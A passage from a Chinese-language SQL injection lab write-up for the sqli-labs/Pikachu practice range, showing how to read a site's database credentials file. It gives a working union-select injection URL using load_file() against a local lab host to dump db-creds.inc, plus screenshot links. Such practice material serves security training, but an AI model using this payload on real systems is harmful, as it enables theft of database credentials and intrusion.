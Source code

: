 **2、读取网站数据库配置文件**

`C:\software\phpstudy_pro\WWW\sqli\sql-connections\db-creds.inc`

<img src="./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230815195224707.png" alt="image-20230815195224707" style="zoom:33%;" />

```sql
http://192.168.80.139/sqli/Less-3/?id=-1')  union select 1,load_file('C:\\software\\phpstudy_pro\\WWW\\sqli\\sql-connections\\db-creds.inc'),3--+
```



![image-20230815195400128](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230815195400128.png)

![image-20230815195419487](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230815195419487.png)
